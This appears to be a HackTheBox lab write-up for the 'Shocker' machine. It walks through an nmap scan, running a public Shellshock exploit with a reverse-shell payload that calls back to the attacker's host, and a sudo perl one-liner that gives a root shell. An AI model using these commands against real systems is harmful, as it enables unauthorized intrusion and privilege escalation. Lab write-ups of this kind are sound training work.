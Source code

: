 ```yaml
---
layout: post
title:  "HackTheBox - Shocker"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/shocker/
---
```

# Description
Shellshock was another basic machine that kind of gave away the vectors for each step with ease.
# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it
```

# Initial shell
As the box name implies, this box probably involves shellshock. A directory bruteforce reveals very little, only a 'cgi-bin' directory. Searchsploit search for shellshock comes up with:
```Apache mod_cgi = 'shellshock' Remote Command Injection | exploits/linux/remote/34900.py'```
Reading the documentation / exploit, we can figure out how to supply it with the arguments we need to yield a shell.
```
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.5 lport=1337 pages=/cgi-bin/user.sh
```
Running the above gains us a low privileged shell and we can collect the user.txt flag.
# Privilege escalation
A simple 'sudo -l' check reveals our privesc vector. 
```(root) NOPASSWD: /usr/bin/perl```
this tells us we can run perl as root without supplying a password, easy. 
```
10.10.10.56> sudo perl -e 'exec "/bin/bash";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And there we go full privileges with a simple perl shell call.
